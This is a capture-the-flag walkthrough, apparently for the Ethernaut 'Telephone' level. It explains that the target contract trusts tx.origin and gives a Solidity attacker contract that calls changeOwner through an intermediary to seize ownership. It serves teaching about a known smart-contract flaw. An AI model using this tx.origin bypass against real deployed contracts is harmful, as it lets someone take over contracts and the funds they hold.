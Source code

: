 # Telephone

**HINT:** Your going to want to go to remix IDE and create a contract to hack the telephone contract. The contract uses tx.orgin as an authorization. Hence making it hackable if that helps any
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.4.18;

contract Telephone {
    function changeOwner(address _owner) public;
}

contract stealTelephone {

    function stealTelephon(address _telephone, address _owner) public {
        Telephone tel = Telephone(_telephone);
        tel.changeOwner(_owner);
    }    
}
```

You can then check using:
```js
await contract.owner()
```
</p>
</details>